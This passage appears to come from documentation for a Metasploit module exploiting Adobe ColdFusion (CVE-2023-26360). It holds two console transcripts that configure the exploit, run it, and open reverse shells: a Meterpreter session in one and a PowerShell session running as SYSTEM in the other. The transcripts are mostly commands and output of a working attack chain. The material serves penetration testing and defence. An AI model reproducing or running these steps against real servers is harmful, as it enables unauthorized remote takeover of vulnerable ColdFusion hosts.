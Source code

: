 ```


View the full module info with the info, or info -d command.

msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set LHOST eth0
LHOST => 172.23.57.124
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set SRVHOST eth0
SRVHOST => 172.23.57.124
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set RHOST 172.23.49.239
RHOST => 172.23.49.239
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.49.239:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.57.124:4444 
[*] Using URL: http://172.23.57.124:8080/
[*] Received payload request, transmitting payload jar...
[*] Received payload request, transmitting payload jar...
[*] Received payload request, transmitting payload jar...
[*] Sending stage (58851 bytes) to 172.23.49.239
[*] Meterpreter session 1 opened (172.23.57.124:4444 -> 172.23.49.239:49815) at 2023-04-11 14:10:13 +0100
[*] Server stopped.

meterpreter > getuid
Server username: WIN-9SIICLTVVC7$
meterpreter > pwd
C:\ColdFusion2021\cfusion\bin
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.23.49.239 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > 
```

### Windows Command (Adobe ColdFusion 2021 Update 5 on Windows Server 2022)
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set LHOST eth0
LHOST => 172.23.9.70
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set RHOST 172.23.13.12
RHOST => 172.23.13.12
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set target 1
target => 1
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set PAYLOAD cmd/windows/powershell_reverse_tcp
PAYLOAD => cmd/windows/powershell_reverse_tcp
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.13.12:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Powershell session session 1 opened (172.23.9.70:4444 -> 172.23.13.12:57546) at 2023-04-06 12:20:27 +0100

PS C:\ColdFusion2021\cfusion\bin> whoami
nt authority\system
PS C:\ColdFusion2021\cfusion\bin> exit

[*] 172.23.13.12 - Powershell session session 1 closed.  Reason: User exit
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > 
```